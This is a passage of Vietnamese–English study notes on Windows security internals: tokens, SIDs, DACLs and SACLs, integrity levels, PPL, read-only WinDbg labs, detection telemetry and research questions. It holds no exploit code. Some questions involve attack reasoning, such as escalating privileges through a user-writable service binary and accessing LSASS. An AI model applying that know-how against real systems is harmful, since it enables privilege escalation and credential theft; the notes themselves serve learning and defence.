4. Note `SERVICE_START_NAME` (account) và `BINARY_PATH_NAME`.
5. In Process Explorer, find hosting process (often svchost.exe).
6. Double-click svchost.exe → Services tab (or lower pane) to find hosted services.
7. Run:
   ```cmd
   sc showsid Winmgmt
   ```
   → Shows the service SID (`S-1-5-80-...`).

**Expected observations:**

- Many services share svchost.exe — service SID differentiates them
- `SERVICE_START_NAME` differs: LocalSystem, LocalService, NetworkService, or specific account
- Service SID can appear in ACLs to grant per-service access

---

### Lab 7.6 — Read-only token inspection với WinDbg

**Goal:** Observe token state in kernel debugger or user-mode debugger.

**Requirements:** WinDbg. Có thể dùng kernel dump hoặc attach to own test process.

> **Safety note:** Read only. Do not modify token state or kernel memory.

**Option A — user mode (attach to own test process):**

1. Launch a test process (e.g., `notepad.exe`).
2. WinDbg → File → Attach to Process → select notepad.
3. Break execution.
4. Get PEB:
   ```windbg
   !peb
   ```
5. Get process token (from EPROCESS in kernel debug; limited in user-mode attach):
   ```windbg
   !token    ; if user-mode context has token visible
   ```

**Option B — kernel debug or memory dump:**

1. Open kernel dump or attach kernel debugger.
2. Find lsass.exe EPROCESS:
   ```windbg
   !process 0 0 lsass.exe
   ```
3. Get Token address:
   ```windbg
   !process <addr> 1
   ; Look for Token field
   ```
4. Dump token:
   ```windbg
   !token <token_addr>
   ```
5. Observe: User SID, Groups, Privileges, IL, AuthenticationId (LUID).

**Expected observations:**

- Token shows full group list including integrity level SID
- Privilege list shows enabled/disabled state
- AuthenticationId matches logon session LUID from Event Log 4624

---

## 13. Common Researcher Mistakes

| # | Sai lầm | Tại sao sai | Cách đúng |
|---|---------|------------|-----------|
| 1 | Nghĩ admin = SYSTEM | Admin là user account trong Administrators group; SYSTEM là NT AUTHORITY built-in account với System IL | Check `whoami /user` — different SIDs, different access scope |
| 2 | Nghĩ SYSTEM = kernel mode | SYSTEM là user-mode account — runs at Ring 3. Kernel mode = Ring 0 CPU privilege — drivers only | SYSTEM process is still subject to kernel access checks and cannot directly access kernel memory |
| 3 | Nghĩ privilege = permission | Privilege là system-wide capability trong token (SeDebug, SeLoadDriver). Permission là object DACL ACE. Completely different mechanisms | `whoami /priv` = privileges; `icacls` = file permissions |
| 4 | Nghĩ disabled privilege là irrelevant | Disabled privilege vẫn có trong token — cần `AdjustTokenPrivileges` để enable, không cần escalation | Token with SeDebugPrivilege disabled can enable it trivially in code |
| 5 | Nghĩ SeDebugPrivilege grants unlimited access | SeDebugPrivilege allows bypassing DACL on process/thread handles — không bypass PPL, không bypass MIC | lsass.exe with PPL still blocks SeDebug-enabled non-PPL process |
| 6 | Nghĩ UAC là strong security boundary | Microsoft does not classify UAC as security boundary (same class as user/kernel). UAC bypasses without priv escalation exist | Treat UAC as convenience feature; treat kernel boundary as actual security boundary |
| 7 | Nghĩ medium IL admin = fully elevated | Medium IL admin has Administrators group as DENY_ONLY = does NOT match allow ACEs for that group | Check ElevationType in token or IL in Process Explorer |
| 8 | Nghĩ DACL và SACL làm cùng một việc | DACL controls access (allow/deny). SACL controls audit logging. Separate mechanisms, evaluated separately | Change SACL to control what gets logged; change DACL to control access |
| 9 | Nhầm null DACL và empty DACL | Null DACL = everyone full access (most permissive). Empty DACL = nobody has access (most restrictive) | Check SD with WinDbg `!sd` or AccessChk — distinguish null vs empty |
| 10 | Bỏ qua deny ACE ordering và inheritance | Deny ACEs processed before Allow. Inherited Deny can override explicit Allow. Order matters | Check full ACL including inherited ACEs; explicit Allow doesn't override inherited Deny |
| 11 | Nghĩ process username là toàn bộ security context | Username is one field. Token also has: groups (with attributes), privileges, IL, logon session, elevation type, capabilities | Use `whoami /all` or Process Explorer Security tab for full picture |
| 12 | Bỏ qua thread impersonation | Thread can carry different token than process. File access during impersonation uses thread token | Standard process monitoring misses thread-level impersonation; requires kernel sensor |
| 13 | Bỏ qua service SID | Service SIDs (`NT SERVICE\name` = `S-1-5-80-...`) are real principals that appear in ACLs | `sc showsid <service>` to see SID; check if service-specific resources use service SID |
| 14 | Bỏ qua AppContainer capabilities | AppContainer token has Capability SIDs required for resource access. User SID alone doesn't explain AppContainer access | Inspect token capabilities list; cross-reference with object ACLs granting those capabilities |
| 15 | Nghĩ PPL chỉ là DACL | PPL is kernel enforcement — happens before DACL check. Even SYSTEM cannot open PPL-protected process with sensitive access | Process protection level is in EPROCESS.Protection — separate from security descriptor |
| 16 | Nghĩ access denied = no security event | Access denied may still generate Event 4656 (handle request) or 4663 (object access) if SACL configured for failures | Monitor denied access events — they are often higher signal than allowed access |
| 17 | Nghĩ Event Log captures all object access tự động | Object access audit requires: (1) audit policy enabled + (2) SACL on specific object. Both required. Neither alone is sufficient | `auditpol` check + `icacls` for SACL — verify both configured |
| 18 | Nghĩ LSASS là just another process | LSASS hosts authentication and logon sessions. Handle access to lsass has unique telemetry significance | Sysmon Event 10 targeting lsass = immediate investigation priority |
| 19 | Nghĩ handle value là globally meaningful | HANDLE is per-process index. Same value 0x4 in two different processes points to different objects | Handle values only meaningful in context of specific process's handle table |
| 20 | Nghĩ token state không thể thay đổi sau khi process start | AdjustTokenPrivileges, ImpersonateLoggedOnUser, CreateRestrictedToken — all modify token state at runtime | Token inspection is point-in-time; events capture changes if audit policy configured |
| 21 | Bỏ qua session và logon ID context | Same username may have multiple logon sessions (e.g., different RDP sessions). AuthenticationId LUID uniquely identifies session | Cross-reference LUID in token with Event 4624 LUID for attribution |
| 22 | Overtrust single telemetry source | Event Log may be incomplete (audit policy). EDR may have gaps (evasion). Neither alone = ground truth | Correlate: Event Log + EDR + memory forensics for high-confidence conclusions |

---

## 14. Windows Version Notes

| Feature | Windows Version | Thay đổi | Researcher impact |
|---------|----------------|----------|------------------|
| UAC / split token | Vista (2007) | Filtered + full token for admins | All admin research must account for medium vs high IL distinction |
| Mandatory Integrity Control | Vista | Integrity labels on objects/tokens | Low IL process cannot write-up — fundamentally changed sandbox design |
| Protected Process (PP) | Vista | Kernel-enforced handle restrictions | First layer of PP — media player DRM protection originally |
| Protected Process Light (PPL) | Windows 8.1 (2013) | More granular signer-based protection | LSASS PPL; AV PPL — significant change to credential access model |
| AppContainer | Windows 8 (2012) | UWP/Metro app sandbox | New token shape; capability-based access model |
| Credential Guard (VBS) | Windows 10 1507+ | Moves NTLM/Kerberos secrets to VSM isolated world | Changes LSASS credential access model fundamentally |
| Device Guard / WDAC | Windows 10 1507+ | Configurable Code Integrity for user and kernel | Limits what code can run regardless of admin status |
| Windows Hello / WebAuthn | Windows 10 | Credential replacement with TPM-backed keys | Auth changes; reduced password credential exposure |
| Service account isolation | Windows Vista+ | Virtual service accounts (`NT SERVICE\...`), gMSA | Service SID concept; per-service token isolation |
| LSA Protection (RunAsPPL) | Windows 8.1 | LSASS runs as PPL when configured | Registry key `RunAsPPL`; requires UEFI Secure Boot on some configs |
| Token binding restrictions | Windows 10 1809+ | Various token impersonation changes | Some impersonation paths tightened |
| Security log expansion | Various | New Event IDs, richer fields | Event 4688 command line logging (requires policy); 4703 token adjust |
| Audit policy subcategories | Vista+ | Fine-grained audit categories replace legacy binary on/off | `auditpol /get /category:*` instead of simple policy flags |
| HVCI (Hypervisor-Protected Code Integrity) | Windows 10 1703+ | Kernel code integrity enforced by hypervisor | Driver research assumptions change — cannot inject unsigned kernel code |
| Shadow Stack (CET) | Windows 10 20H1 | Hardware shadow stack | Affects exploit development assumptions for kernel/user code |

---

## 15. Summary

Windows security là **token + object + access check** — model nhất quán áp dụng cho mọi object trong hệ thống.

**Từ góc nhìn identity:**

- **SID là real identity** — username là display string, SID là binary identifier dùng trong checks
- **Token là security container** — chứa user SID, group SIDs, privileges, integrity level, logon session, elevation state, capabilities
- **Group SIDs có attributes** — `DENY_ONLY` group không contribute đến allow ACEs; `SE_GROUP_ENABLED` nhất thiết phải active
- **Primary vs impersonation token** — thread identity có thể khác process identity; service/RPC contexts thường xuyên dùng impersonation

**Từ góc nhìn access control:**

- **Permission (DACL) và privilege (token) là khác nhau** — permission là per-object; privilege là system-wide capability
- **DACL → SACL distinction** — DACL controls access; SACL controls audit; không thay thế nhau
- **Null DACL ≠ empty DACL** — null = everyone full access; empty = nobody has access
- **MIC adds IL layer** — Low IL cannot write-up to Medium/High IL even if DACL permits
- **Access check is stateful** — checked at handle open; handle granted access is fixed; DACL changes don't retroactively revoke open handles

**Từ góc nhìn security boundaries:**

- **Admin ≠ elevated admin** — UAC creates medium IL filtered token vs high IL full token
- **SYSTEM ≠ kernel mode** — SYSTEM is user-mode account; kernel mode is CPU privilege level
- **PPL changes handle access assumptions** — even SYSTEM user-mode cannot open PPL-protected process
- **AppContainer changes token shape** — capabilities + AppContainerSid instead of broad user SID access

**Từ góc nhìn telemetry:**

- **Event Log requires configuration** — audit policy + SACL (for object access); neither alone is sufficient
- **Absence of log ≠ absence of action** — cleared log, disabled audit, missing SACL all produce gaps
- **EDR provides independent telemetry** — Sysmon Event 10 (handle access), process create with IL, privilege use
- **Memory forensics reveals runtime state** — token in memory, logon sessions, impersonation tokens — not in Event Log

---

## 16. Research Questions

1. **Filtered vs elevated token:** Một admin user chạy `certutil.exe` từ non-elevated cmd, sau đó chạy cùng `certutil.exe` từ elevated cmd. Hai process objects khác nhau gì về token? Integrity level khác nhau gì? Privileges khác nhau gì? Tại sao access behavior của chúng có thể khác nhau cho cùng thao tác?

2. **Token fields trong access check:** Trong một access check, group SIDs với attribute `SE_GROUP_USE_FOR_DENY_ONLY` match ACEs như thế nào? Nếu file DACL có `Administrators: FILE_WRITE_DATA` (Allow) và token có Administrators group với DENY_ONLY, user có write được không? Giải thích cơ chế.

3. **Thread impersonation và forensics:** Một svchost.exe chạy as SYSTEM đang xử lý RPC call từ medium-IL user. Thread impersonates caller. Request từ thread này access file `C:\Users\Alice\secret.txt` — file chỉ Alice có access. Access succeed không? Nếu succeed, Process Explorer (nhìn vào process) có thể phát hiện điều này không?

4. **Integrity level interaction với DACL:** File `C:\SharedData.txt` có DACL: `Everyone: FILE_WRITE_DATA (Allow)` và integrity label: Medium IL. Low IL browser process cố ghi vào file. Step nào trong access check fail? Tại sao "DACL allows everyone write" vẫn không đủ?

5. **SYSTEM vs kernel mode boundary:** Service chạy as SYSTEM (`NT AUTHORITY\SYSTEM`). Nó cần đọc kernel memory tại address `0xffff...` (kernel-space address). Tại sao điều này fails? `ReadProcessMemory` với self handle từ SYSTEM process có thể read kernel memory không? Tại sao hoặc tại sao không?

6. **PPL handle restrictions:** LSASS chạy với PPL (Lsa signer). Elevated admin process (not PPL) cố `OpenProcess(PROCESS_VM_READ, lsass_pid)`. Điều gì xảy ra? Which check fails first — DACL hay PPL? Nếu attacker có SeDebugPrivilege, kết quả thay đổi không? Tại sao?

7. **Privilege baseline cho fleet:** Trong enterprise deployment, một SOC analyst muốn identify tất cả processes với SeLoadDriverPrivilege enabled (not just present). Telemetry source nào tốt nhất? Event Log một mình có đủ không? Combine gì để reliable baseline?

8. **Service account attack surface:** Service A chạy as `NT SERVICE\ServiceA`. Service binary path: `C:\ProgramData\Vendor\service.exe`. `icacls C:\ProgramData\Vendor\service.exe` shows `BUILTIN\Users:(M)` — Users có Modify access. Explain attack path step-by-step từ non-admin user đến code execution as `NT SERVICE\ServiceA`.

9. **LSASS access telemetry curation:** Sysmon Event 10 trên một server generate 500+ LSASS access events per day từ various processes. Describe methodology để: (a) baseline normal callers, (b) identify anomalous access, (c) prioritize GrantedAccess masks. Which access masks are highest priority?

10. **Audit gap investigation:** Security team reports "we have no object access events for `C:\Secrets\`". `auditpol /get /subcategory:"File System"` shows `Success and Failure`. But no events appear. What are the possible reasons? How do you verify each? (Hint: there are at least 3 independent reasons.)

11. **AppContainer capabilities analysis:** Browser tab process là AppContainer với capabilities: `internetClient`, `documentsLibrary`. User's Documents folder has ACL entry: `ALL APPLICATION PACKAGES: File_Read_Data`. Tab cố open file in Documents. Access succeed không? What SIDs are checked? What if the file doesn't have the ALL APPLICATION PACKAGES ACE?

12. **Memory forensics for security state:** Security log shows last LSASS access Event 4663 was 2 hours ago. Memory dump taken 30 minutes ago. Describe what security-relevant information can be extracted from dump that is NOT in Event Log. Be specific about: token state, logon sessions, impersonation tokens, open handles.

---

## 17. References

| Tài liệu | Relevance |
|----------|-----------|
| Windows Internals, Part 1, 7th Ed — Chapter 7 (Security) | Nguồn gốc — token, SRM, access check, MIC, UAC, PPL, AppContainer |
| Microsoft Learn — Access Control Model | https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-model |
| Microsoft Learn — Access Tokens | https://learn.microsoft.com/en-us/windows/win32/secauthz/access-tokens |
| Microsoft Learn — Security Identifiers | https://learn.microsoft.com/en-us/windows/win32/secauthz/security-identifiers |
| Microsoft Learn — Access Control Lists | https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-lists |
| Microsoft Learn — Privileges | https://learn.microsoft.com/en-us/windows/win32/secauthz/privileges |
| Microsoft Learn — Mandatory Integrity Control | https://learn.microsoft.com/en-us/windows/win32/secauthz/mandatory-integrity-control |
| Microsoft Learn — User Account Control | https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/ |
| Microsoft Learn — AppContainer isolation | https://learn.microsoft.com/en-us/windows/win32/secauthz/appcontainer-isolation |
| Microsoft Learn — Protected Process Light | https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services- |
| Microsoft Learn — LSASS protection / Credential Guard | https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/ |
| Microsoft — Well-known SIDs | https://learn.microsoft.com/en-us/windows/win32/secauthz/well-known-sids |
| Sysinternals Process Explorer | https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer |
| Sysinternals AccessChk | https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk |
| WinDbg token/security commands | https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/ — !token, !sd, !acl |
| Windows Security Auditing | https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/ |
| auditpol documentation | https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/auditpol |
| Mark Russinovich — "Detecting Malware Rootkits" (SysInternals blog) | UAC, token, and process security analysis |
| James Forshaw — "Windows Security Internals" | Deep token/access check internals; impersonation |
| Pavel Yosifovich — "Windows Kernel Programming" | Kernel-side security checks and token manipulation |
| Alex Ionescu — "Windows Privilege Levels" (presentations) | PPL, VBS, kernel security boundaries |

---

## 18. Illustration Plan

### Diagrams đã included (Mermaid)

**Diagram 1 — Access check flow** (Section 2.1):
- Subject token → SRM → DACL evaluation → MIC check → decision → audit
- Shows full access check pipeline with branching decisions

**Diagram 2 — Token contents** (Section 2.2):
- `_TOKEN` struct với all key fields: user SID, group SIDs, privileges, IL, logon session, elevation, capabilities, AppContainer

**Diagram 3 — Trust boundary ladder** (Section 6):
- Low IL / AppContainer → Medium IL / Normal user → High IL / Elevated admin → SYSTEM (user mode) → PPL-protected → Kernel Mode → VBS/Secure World
- Shows escalation path conceptually

**Diagram 4 — Security telemetry pipeline** (Section 9.6):
- Action → security checks → audit layer (SACL/policy) → Event Log
- Parallel: EDR sensor (kernel callbacks) → EDR store
- Parallel: forensics artifacts
- Shows independence of Event Log and EDR

### Screenshots để capture (field notes)

**Screenshot 1 — whoami /all: normal vs elevated:**
- Side-by-side output của normal cmd và elevated cmd
- Annotate: IL difference, Administrators group attribute, SeDebugPrivilege enabled state

**Screenshot 2 — Process Explorer Security tab:**
- Elevated cmd process showing groups and privileges
- Compare with normal svchost.exe (SYSTEM) showing System IL

**Screenshot 3 — icacls output:**
- File in system directory showing TrustedInstaller ownership
- Compare with user-created file showing inherited ACEs from parent
- Annotate: `(I)` = inherited, `(F)` = full control, `(OI)` = object inherit

**Screenshot 4 — AccessChk output:**
- `accesschk -c SomeService -l` showing service permissions in SDDL + human readable
- Highlight any `BUILTIN\Users` or `Authenticated Users` with write access

**Screenshot 5 — Event Viewer Security log:**
- Event 4624 (logon) expanded showing LogonType, SubjectUserName, LogonGuid, SubjectLogonId
- Event 4672 showing PrivilegeList for admin logon

**Screenshot 6 — WinDbg !token output:**
- `!token` output from kernel debug showing full token dump
- Annotate: User SID, Groups with attribute flags, Privileges with enabled state, IL SID, AuthenticationId

### Search terms for further research

```
Windows access token internals SID group
Windows security descriptor DACL SACL ACE structure
Windows Mandatory Integrity Control IL access check
Windows UAC filtered token elevated token linked token
Windows Protected Process Light PPL signer
Windows AppContainer capabilities security model
Windows Security Reference Monitor access check
Windows impersonation token thread primary token
Windows privilege SeDebugPrivilege SeLoadDriverPrivilege
Windows LSASS protection credential guard PPL
Windows access check algorithm kernel SepAccessCheck
Windows audit policy object access SACL configuration
WinDbg !token !sd !acl security debugging
```
